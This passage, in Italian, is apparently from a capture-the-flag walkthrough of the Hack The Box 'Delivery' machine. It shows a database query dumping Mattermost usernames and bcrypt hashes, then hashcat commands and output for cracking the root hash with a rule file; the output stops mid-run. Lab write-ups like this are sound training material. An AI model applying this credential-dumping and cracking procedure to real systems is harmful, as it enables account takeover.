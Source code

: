```bash
MariaDB [mattermost]> select username, password from Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| xrabbit1                         | $2a$10$1Ava5JTo9wECMTMVtEWyhOc72gwuAAdst7bbPMoie5l6.jj4BcE0u |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| xrabbit                          | $2a$10$veUHiV4nyaCru4Qo1h8hduf0sZiIu0643VrMFY4NrGbPvj/piE6DG |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
9 rows in set (0.000 sec)
```

Abbiamo degli Hash che sono da decifrare 

lo salviamo sulla nostra macchina 

```bash
┌──(root㉿kali)-[/home/kali/htb/delivery]
└─# cat hash
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

Sulla base dei commenti nella email di Mattermost, creerò un file con la password:

```bash
┌──(root㉿kali)-[/home/kali/htb/delivery]
└─# cat password
PleaseSubscribe!
```

Ora posso eseguire un file di regole per ottenere diverse variazioni delle password nel file (solo una in questo caso). Ce ne sono molti in /usr/share/hashcat/rules,  con quello chiamato "bast64.rulw":

```bash
┌──(root㉿kali)-[/home/kali/htb/delivery]
└─# hashcat -m 3200 hash password --user -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-Intel(R) Core(TM) i7-4750HQ CPU @ 2.00GHz, 1766/3597 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 77

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

```